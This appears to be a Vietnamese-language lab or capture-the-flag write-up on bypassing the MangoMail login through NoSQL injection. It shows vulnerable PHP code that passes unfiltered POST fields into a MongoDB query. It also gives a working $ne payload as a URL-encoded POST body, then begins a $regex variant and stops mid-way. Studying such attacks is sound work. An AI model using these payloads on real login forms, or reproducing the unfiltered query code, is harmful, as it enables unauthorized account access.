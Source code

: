 1. **Giới thiệu về lỗ hổng**:
   - Ứng dụng MangoMail có cổng đăng nhập yêu cầu người dùng nhập địa chỉ email và mật khẩu để truy cập. 
   - Tuy nhiên, ứng dụng này tồn tại lỗ hổng **bypass authentication** (vượt qua xác thực) do các đầu vào `email` và `password` từ phía người dùng không được kiểm tra và lọc đúng cách trước khi đưa vào truy vấn NoSQL.

2. **Cách khai thác lỗ hổng**:
   - Phía máy chủ, khi người dùng gửi thông tin đăng nhập, ứng dụng kiểm tra xem `email` và `password` có tồn tại và không rỗng, sau đó truy vấn cơ sở dữ liệu để kiểm tra người dùng với email và mật khẩu được cung cấp.

   **Ví dụ về mã kiểm tra xác thực**:
   ```php
   if ($_SERVER['REQUEST_METHOD'] === "POST") {
       if (!isset($_POST['email'])) die("Missing `email` parameter");
       if (!isset($_POST['password'])) die("Missing `password` parameter");
       if (empty($_POST['email'])) die("`email` can not be empty");
       if (empty($_POST['password'])) die("`password` can not be empty");

       $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
       $query = new MongoDB\Driver\Query(array("email" => $_POST['email'], "password" => $_POST['password']));
       $cursor = $manager->executeQuery('mangomail.users', $query);

       if (count($cursor->toArray()) > 0) {
           // Đăng nhập thành công
       }
   }
   ```
   - Vì `email` và `password` là đầu vào từ người dùng và không được lọc kỹ, kẻ tấn công có thể điều khiển truy vấn bằng cách sử dụng các toán tử NoSQL như `$ne` (khác), `$regex` (biểu thức chính quy),… để đánh lừa hệ thống.

3. **Khai thác bằng `$ne`**:
   - Sử dụng toán tử `$ne` trên cả `email` và `password` để khớp với bất kỳ tài liệu nào không có email là `[email protected]` và mật khẩu không phải `test`.
   
   **Truy vấn MongoDB để khai thác**:
   ```javascript
   db.users.find({
       email: {$ne: "[email protected]"},
       password: {$ne: "test"}
   });
   ```
   - Chúng ta có thể biến đổi truy vấn trên thành URL-encoded cho POST request:
     ```
     email[$ne]=notadmin%40mangomail.com&password[$ne]=test
     ```
   - Kết quả: Bỏ qua xác thực và truy cập vào tài khoản.

4. **Khai thác bằng `$regex`**:
   - Sử dụng toán tử `$regex` để khớp mọi ký tự (không cần điều kiện chính xác), bằng cách khớp với chuỗi `/.*/`.
